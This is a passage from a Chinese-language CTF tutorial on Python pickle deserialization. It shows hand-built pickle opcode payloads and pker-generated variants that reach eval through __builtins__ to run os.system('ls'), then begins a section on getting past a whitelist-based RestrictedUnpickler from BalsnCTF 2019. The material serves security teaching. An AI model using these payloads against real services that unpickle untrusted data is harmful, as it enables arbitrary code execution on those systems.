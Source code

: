   ```py
   tR(cbuiltins
   globals
   (tRS'__builtins__'
   tR.
   '''
   # <module 'builtins' (built-in)>
   ```
5. 获取到 `__builtins__` 后，就可以通过 `getattr(__builtins__,'eval')` 获取 eval 函数,由于 getattr 被复用了，我们可以是用 g 操作码进行存储，到第二次使用时使用 p 操作码进行获取. 下面的 payload 中，获取到 getattr 后使用 p0 存储到 memo_0,获取到 `__builtins__` 后使用 p1 存储到 memo_1.
   调用时先使用 g1 获取 getattr 函数，然后使用 g1 获取 `__builtins__`。获取到 eval 后再压入 python 代码，最后执行 ls
   ```py
    c = b'''cbuiltins
    getattr
    p0
    (cbuiltins
    dict
    S'get'
    tR(cbuiltins
    globals
    (tRS'__builtins__'
    tRp1
    g0
    (g1
    S'eval'
    tR(S'__import__("os").system("ls")'
    tR.
    '''
   ```

使用 pker 生成 payload：
第一种 payload
```py
getattr = GLOBAL('builtins','getattr')
dict = GLOBAL('builtins','dict')
dict_get = getattr(dict,'get')
globals_dict = GLOBAL('builtins','globals')()
builtins = dict_get(globals_dict,'__builtins__')
eval = getattr(builtins,'eval')
return eval('__import__("os").system("ls")')
```

第二种 payload
```py
return GLOBAL('builtins','__getattribute__')('eval')('__import__("os").system("ls")')
```


## 绕过白名单
### 利用不安全的白名单
BalsnCTF 2019 Pyshv1 中使用了白名单进行限制。
```py
# securePickle.py
import pickle, io

whitelist = []

# See https://docs.python.org/3.7/library/pickle.html#restricting-globals
class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        if module not in whitelist or '.' in name:
            raise KeyError('The pickle is spoilt :(')
        return pickle.Unpickler.find_class(self, module, name)

```